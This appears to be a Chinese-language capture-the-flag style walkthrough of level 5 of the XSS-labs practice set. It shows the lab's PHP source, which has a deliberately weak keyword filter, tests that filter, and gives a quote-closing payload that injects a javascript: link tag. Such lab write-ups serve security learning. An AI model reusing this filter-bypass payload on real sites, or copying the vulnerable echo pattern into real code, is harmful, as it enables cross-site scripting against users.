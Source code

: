 ![image-20240819205416674](https://image.201068.xyz/assets/23_1.XSS-labs/image-20240819205416674.png)

## level5 a标签

### 访问

http://192.168.70.10:8084/level5.php?keyword=find%20a%20way%20out!

![image-20240819205503326](https://image.201068.xyz/assets/23_1.XSS-labs/image-20240819205503326.png)

### 源码

```php
<?php 
ini_set("display_errors", 0);
$str = strtolower($_GET["keyword"]);
$str2=str_replace("<script","<scr_ipt",$str);
$str3=str_replace("on","o_n",$str2);
echo "<h2 align=center>没有找到和".htmlspecialchars($str)."相关的结果.</h2>".'<center>
<form action=level5.php method=GET>
<input name=keyword  value="'.$str3.'">
<input type=submit name=submit value=搜索 />
</form>
</center>';
?>
```

- 对**<script和on**做了加**下划线_**处理，**双引号"**闭合
- **strtolower()函数**，他会把提交的所有字符转换为**小写**

### 测试过滤

```js
<script " 'Oonn>
```

![image-20240819210038440](https://image.201068.xyz/assets/23_1.XSS-labs/image-20240819210038440.png)

变成了 

```js
<scr_ipt " 'oo_nn>
```

![image-20240819210007701](https://image.201068.xyz/assets/23_1.XSS-labs/image-20240819210007701.png)

在**中间加了下划线,大O变成小写**了。

**关键字处理一次**，**单引号和双引号依然存在**。

### 双引号"闭合,使用a标签

```js
"><a href ="javascript:alert:alert(/xss/)">click</a>
```
